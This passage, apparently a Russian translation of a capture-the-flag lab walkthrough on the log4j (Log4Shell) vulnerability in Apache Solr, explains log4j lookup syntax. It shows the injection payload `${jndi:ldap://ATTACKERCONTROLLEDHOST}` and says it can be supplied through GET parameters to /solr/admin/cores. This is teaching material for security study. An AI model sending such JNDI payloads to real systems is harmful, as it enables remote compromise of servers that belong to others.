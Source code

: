 Вот несколько примеров такого синтаксиса:
```commandline
${sys:os.name}
${sys:user.name}
${log4j:configParentLocation}
${ENV:PATH}
${ENV:HOSTNAME}
${java:version}
```

Вы, возможно, уже знаете общую полезную нагрузку для злоупотребления этой уязвимостью log4j. Формат обычного 
синтаксиса, который использует это преимущество, выглядит так: 

`${jndi:ldap://ATTACKERCONTROLLEDHOST}`

Этот синтаксис указывает на то, что log4j будет вызывать функциональность из «JNDI» или «Java Naming and Directory 
Interface». В конечном итоге это может быть использовано для доступа к внешним ресурсам или «ссылкам», что и 
используется в качестве оружия в этой атаке.   

Обратите внимание на ldap://схему. Это означает, что цель будет обращаться к конечной точке (контролируемому 
злоумышленником местоположению, в случае этой атаки) через протокол LDAP. Для краткости нам не нужно будет здесь 
описывать все тонкости и детали LDAP, но знайте, что это то, с чем нам нужно будет работать, пока мы совершенствуем 
нашу атаку.

На данный момент знайте, что цель фактически установит соединение с внешним местоположением. Это указано в 
ATTACKERCONTROLLEDHOST заполнительном поле в приведенном выше синтаксисе. Вы, выступая в качестве атакующего в этом 
сценарии, можете разместить простой прослушиватель для просмотра этого соединения.

Следующий вопрос: где можно ввести этот синтаксис?

В любом месте, где приложение регистрирует данные.

Вот в чем суть этой уязвимости. К сожалению, очень сложно определить, где находится поверхность атаки для разных 
приложений, и, следовательно, какие  приложения на самом деле уязвимы. Простое наблюдение за наличием файлов log4j 
не дает подсказки о точном номере версии или даже о том, где или как приложение может использовать пакет.  

Вспомните предыдущую задачу. Вы уже обнаружили, что можете предоставить paramsURL /solr/admin/cores, и теперь, когда 
вы лучше понимаете, как работает log4j, вы должны понимать, что именно здесь  вы предоставляете свой синтаксис 
инъекции. Вы можете просто предоставить переменные или параметры HTTP GET, которые затем будут обработаны и 
проанализированы log4j. Все, что нужно, это эта одна строка текста — и это делает эту уязвимость чрезвычайно простой 
для эксплуатации.    
